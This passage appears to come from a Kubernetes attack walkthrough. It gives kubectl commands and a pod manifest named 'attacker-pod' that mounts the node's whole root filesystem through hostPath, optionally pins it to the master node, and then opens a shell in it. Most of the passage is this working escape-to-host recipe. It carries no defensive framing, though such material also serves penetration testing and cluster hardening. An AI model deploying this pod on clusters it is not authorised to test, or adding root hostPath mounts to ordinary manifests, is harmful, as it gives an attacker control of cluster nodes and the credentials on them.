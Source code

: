 ```bash
kubectl get pod <name> [-n <namespace>] -o yaml
```

> if you need create pod on the specific node, you can use following command to get labels on node
>
> `k get nodes --show-labels`
>
> Commonly, kubernetes.io/hostname and node-role.kubernetes.io/master are all good label for select.

Then you create your attack.yaml file

```yaml
apiVersion: v1
kind: Pod
metadata:
  labels:
    run: attacker-pod
  name: attacker-pod
  namespace: default
spec:
  volumes:
    - name: host-fs
      hostPath:
        path: /
  containers:
    - image: ubuntu
      imagePullPolicy: Always
      name: attacker-pod
      command: ["/bin/sh", "-c", "sleep infinity"]
      volumeMounts:
        - name: host-fs
          mountPath: /root
  restartPolicy: Never
  # nodeName and nodeSelector enable one of them when you need to create pod on the specific node
  #nodeName: master
  #nodeSelector:
  #  kubernetes.io/hostname: master
  # or using
  #  node-role.kubernetes.io/master: ""
```

[original yaml source](https://gist.github.com/abhisek/1909452a8ab9b8383a2e94f95ab0ccba)

After that you create the pod

```bash
kubectl apply -f attacker.yaml [-n <namespace>]
```

Now you can switch to the created pod as follows

```bash
kubectl exec -it attacker-pod [-n <namespace>] -- sh # attacker-pod is the name defined in the yaml file
```
